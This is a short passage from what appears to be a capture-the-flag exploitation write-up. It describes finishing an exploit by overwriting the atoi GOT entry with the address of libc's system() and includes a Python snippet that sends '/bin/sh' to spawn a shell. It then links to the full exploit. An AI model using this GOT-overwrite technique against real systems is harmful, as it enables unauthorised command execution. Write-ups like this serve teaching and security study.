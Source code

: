 And to complete the exploitation, all we must do is overwrite again `atoi@got`
with the address of `system()`, and when `fgets()` will be triggered, simply
enter the command we want to execute, in this case `/bin/sh` will do:
```python
    update_key(s, libc_system, True)
    ok("atoi@got: %#x -> %#x" % (ATOI_GOT, libc_system))

    s.write("/bin/sh"+'\x00'*10)
    s.write("\n")
```

The exploit is complete, we can run it:
{{ img(src="https://i.imgur.com/Ei1aeLb.png" title="image_alt") }}

And as always, go [here](https://gist.github.com/hugsy/187f7dd80cb5bff20842) for
the full exploit.

Peace out ✌
